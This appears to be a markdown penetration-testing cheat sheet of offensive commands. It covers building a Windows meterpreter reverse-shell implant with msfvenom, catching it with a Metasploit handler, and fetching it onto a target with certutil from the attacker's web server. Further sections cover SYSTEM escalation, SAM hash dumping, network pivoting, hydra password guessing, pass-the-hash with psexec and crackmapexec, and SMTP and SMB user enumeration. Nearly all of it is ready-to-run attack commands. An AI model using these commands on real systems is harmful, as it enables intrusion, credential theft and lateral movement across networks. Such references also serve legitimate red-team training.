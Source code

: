 # stable access
#### generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***192.168.1.100*** -f exe -o implant.exe  
#### start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***192.168.1.100***  
> run -j  
#### start webserver for implant download
> python3 -m http.server 80
#### windows LOLBIN basic download of implant
> certutil -urlcache -f http://***192.168.1.100***/implant.exe implant.exe  

# actions on target
#### attempt to get SYSTEM privs
> getsystem  
#### dump SAM
> hashdump
#### set up pivoting
##### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
##### from msfconsole
> use post/multi/manage/autoroute  
> set session ***1***  
> set subnet ***192.168.2.0***  
> set netmask ***255.255.255.0***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
##### from bash
> proxychains nmap -Pn -p445 ***192.168.2.10*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***192.168.2.10***  
#### pass-the-hash
##### in meterpreter session
> hashdump  
> *Administrator:500:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef*  
> background
##### from msfconsole
> use exploit/windows/smb/psexec  
> set rhosts ***192.168.1.9***  
> set smbdomain .  
> set smbuser Administrator  
> set smbpass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef  
> set payload windows/x64/meterpreter/bind_tcp  
> set lhost ***192.168.1.100***  
> run
##### from bash
> crackmapexec smb ***192.168.1.9*** -u "Administrator" -H 5835048ce94ad0564e29a924a03510ef --local-auth  
# smtp
#### msfconsole  
> search smtp_enum
#### bash
> smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t ***192.168.1.10**
> nmap -p25 --script smtp-enum-users
# smb
#### bash
> enum4linux -r ***192.168.1.10***  
> smbmap -H ***192.168.1.10***  
> nmap -p445 --script smb-enum-shares ***192.168.1.10***  
> smbclient -N \\\\***192.168.1.10***\\***share*** -U ""  
#### rpcclient
> rpcclient -U "" -N ***192.168.1.10***  
> enumdomusers
> enumdomgroups
> enumdomains
> queryuser  
